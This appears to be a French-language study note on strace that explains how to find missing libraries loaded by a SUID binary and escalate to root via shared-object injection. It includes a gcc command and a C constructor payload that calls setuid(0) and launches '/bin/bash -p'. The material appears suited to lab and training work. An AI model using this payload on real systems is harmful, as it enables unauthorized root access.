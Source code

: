 Description :

Permet de diagnostiquer les appels systèmes. En gros à chaque fois que le programme appelle une librairie, l'ouverture de fichier,... il nous le montre. Ca peut être bordelique donc l'utilisation d'un grep est judicieuse.

Exemple :  
`strace /usr/local/bin/suid-so 2>&1`

Là on regarde tous les appels système. `2>&1` sert a rediriger les erreurs (2) vers la sortie standard (1). Le & sert juste a spécifier qu'on redirige vers un autre descripteur de fichier.

Vulnérabilité possible grâce a strace :

Si on a un fichier suid (fichier qui s'exécute avec les privilèges du owner du fichier donc s'il appartient à root, peu importe qui le lance, il se lancera en root) que tu peux voir avec la commande ls -l et voir si le bit s est actif, on pourra voir tout les appels système. Donc si on fait `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"` pour voir quelles sont les fichiers que le programme n'arrive pas à trouver, il nous les donnera. Grace à ca, on peut les créer nous même ces fichiers avec ce qu'on veut dedans.

Imaginons qu'il ne trouve pas un fichier .so nommé [libcalc.so](http://libcalc.so "http://libcalc.so") dans la dossier /home/user/.config, on peut créer le dossier .config (si il n'existe pas encore) puis créer notre propre Shared Object a partir d'un script.

`gcc -shared -fPIC -o /home/user/.config/`[libcalc.so](http://libcalc.so "http://libcalc.so") `/home/user/tools/suid/libcalc.c` . Dans mon exemple, dans le fichier libcalc.c, il y a un mini script qui donne les privilèges root :

#include <stdio.h>  
#include <stdlib.h>

static void inject() **attribute**((constructor));

void inject() {  
        setuid(0);  
        system("/bin/bash -p");  
}  
Enfin, on relance le fichier suid pour voir si ca marche.

